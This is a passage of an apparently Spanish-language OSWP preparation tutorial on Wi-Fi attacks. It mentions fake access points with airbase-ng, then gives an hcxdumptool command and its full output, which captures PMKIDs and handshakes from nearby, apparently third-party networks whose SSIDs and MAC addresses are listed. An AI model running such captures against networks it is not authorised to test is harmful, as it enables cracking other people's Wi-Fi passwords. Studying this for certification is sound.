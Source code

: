 - Si quieres aprender a hacerlo manual puedes ver los pasos aquí <https://s4vitar.github.io/oswp-preparacion/#>

>En algunos casos el **Fake AP** no va hacer estable ya que `airbase-ng` no genera puntos de acceso estables y usar una antena **Alfa** funciona por eso se usan mucho las herramientas automatizadas

## Ataques a redes sin clientes 

Para este ataque no es necesario que allá clientes conectados al **AP** lo primero que vamos a hacer es usar `hcxdumptool` este ataque es muy fácil y rápido

```bash
❯ hcxdumptool -i wlan0mon -o hola --enable_status=1
initialization...
warning: wlan0mon is probably a monitor interface
interface is already in monitor mode

start capturing (stop with ctrl+c)
NMEA 0183 SENTENCE........: N/A
INTERFACE NAME............: wlan0mon
INTERFACE HARDWARE MAC....: 9cefd5f91ec0
DRIVER....................: rt2800usb
DRIVER VERSION............: 6.1.0-1parrot1-amd64
DRIVER FIRMWARE VERSION...: 0.36
ERRORMAX..................: 100 errors
BPF code blocks...........: 0
FILTERLIST ACCESS POINT...: 0 entries
FILTERLIST CLIENT.........: 0 entries
FILTERMODE................: unused
WEAK CANDIDATE............: 12345678
ESSID list................: 0 entries
ROGUE (ACCESS POINT)......: 0022f185deae (BROADCAST HIDDEN)
ROGUE (ACCESS POINT)......: 0022f100deaf (BROADCAST OPEN)
ROGUE (ACCESS POINT)......: 0022f185deb0 (incremented on every new client)
ROGUE (CLIENT)............: f04f7cd3562f
EAPOLTIMEOUT..............: 20000 usec
REPLAYCOUNT...............: 61798
ANONCE....................: b171ddef15782b90a1026d94331ce261739adc960ab501a5849af0fa067f55fe
SNONCE....................: 34858945004471ef3d78c90ad55b3f95d2d10a7110b447a2a771302496696048

04:17:08   6 f04f7cd3562f 3c7843e84d9c Total-779D_2.4Gnormal [PMKIDROGUE:230bc6e12064d4557ad6b31aba83d8a9 KDV:2]
04:17:12  11 f04f7cd3562f 2c79d7fd07fa TOTALPLAY_FD07FA [PMKIDROGUE:4765d871b51bc7605aa34180980bd6da KDV:2]
04:17:13  11 f04f7cd3562f b0b28f370c54 TOTALPLAY_370C54 [PMKIDROGUE:9fb0eff55a03d437be75455790314386 KDV:2]
04:17:36   2 f04f7cd3562f f46fed35cea8 Totalplay-2.4G-cea8 [PMKIDROGUE:2986ec13974c1c218d689a68bd90ddd3 KDV:2]
04:17:47   1 1c4d6662ad30 3ca37ea696f0 Totalplay-76AA [EAPOL:M1M2ROGUE EAPOLTIME:9985 RC:61798 KDV:2]
04:18:12  11 58e48850d938 9c9726c87d89 INFINITUMC87D89 [EAP REQUEST ID]
04:18:13  11 f04f7cd3562f b0b28f3701e1 TOTALPLAY_3701E1 [PMKIDROGUE:dfb1e61987c34c26f82a0c203bfb2ff8 KDV:2]
04:18:21  10 ec8ac43ed11e a4d4b262c37a ON_internet_2.4G_C37A [EAPOL:M1M2 EAPOLTIME:10993 RC:1 KDV:2]
04:18:21  10 ec8ac43ed11e a4d4b262c37a ON_internet_2.4G_C37A [EAPOL:M2M3 EAPOLTIME:3479 RC:2 KDV:2]
^C
terminating...
❯ 
```
